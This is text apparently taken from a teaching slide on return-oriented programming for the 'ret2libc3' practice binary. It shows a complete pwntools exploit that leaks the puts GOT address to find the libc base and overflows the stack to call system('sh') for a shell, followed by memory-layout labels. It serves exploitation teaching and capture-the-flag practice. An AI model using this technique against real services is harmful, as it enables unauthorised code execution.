

返回导向编程 | ret2libc3
from pwn import *

io = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("./libc-2.31.so")

# Give me an address (in dec) :
io.sendlineafter(b" :", str(elf.got["puts"]))
# The content of the address : %p\n
io.recvuntil(b" : ")
libcBase = int(io.recvuntil(b"\n", drop=True), 16) - libc.symbols["puts"]

success("libcBase => {:#x}".format(libcBase))
payload = flat(cyclic(60), libcBase + libc.symbols["system"], 0xdeadbeef, next(elf.search(b"sh\x00")))

# Leave some message for me :
io.sendlineafter(b" :", payload)

io.interactive()
For Kernel

Heap
Data

Unused
ret_addr = gadget_addr
Stack
Libc
system()
Bss
gadget
Text
gadget
gadget